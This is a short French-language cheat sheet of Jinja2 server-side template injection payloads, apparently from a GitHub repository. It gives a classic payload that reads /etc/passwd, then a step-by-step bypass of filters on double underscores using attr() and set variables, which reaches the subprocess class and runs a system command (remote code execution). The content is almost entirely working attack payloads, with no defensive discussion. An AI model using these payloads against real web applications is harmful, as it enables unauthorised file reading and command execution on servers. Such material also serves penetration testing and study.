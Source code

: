 # Payload le plus classique

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

# Payloads permettant de contourner un filtre sur "__"

Exemple : 

    {% set string = "ssti" %}
    {% set class = "__class__" %}
    {% set mro = "__mro__" %}
    {% set subclasses = "__subclasses__" %}

Obtention de __class__ : 

    {% set string = "ssti" %}
    {% set class = "__class__" %}
    {% set mro = "__mro__" %}
    {% set subclasses = "__subclasses__" %}
    
    {% set mro_r = string|attr(class)|attr(mro) %}
    {{ mro_r[1] }}

Obtention de __subclasses__

    {% set string = "ssti" %}
    {% set class = "__class__" %}
    {% set mro = "__mro__" %}
    {% set subclasses = "__subclasses__" %}
    
    {% set mro_r = string|attr(class)|attr(mro) %}
    {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
    {{ subclasses_r }}

Accès à l'index 420 (subprocess) : 

    {% set string = "ssti" %}
    {% set class = "__class__" %}
    {% set mro = "__mro__" %}
    {% set subclasses = "__subclasses__" %}
    
    {% set mro_r = string|attr(class)|attr(mro) %}
    {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
    {{ subclasses_r[420] }}

RCE : 

    {% set string = "ssti" %}
    {% set class = "__class__" %}
    {% set mro = "__mro__" %}
    {% set subclasses = "__subclasses__" %}
    
    {% set mro_r = string|attr(class)|attr(mro) %}
    {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
    {{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
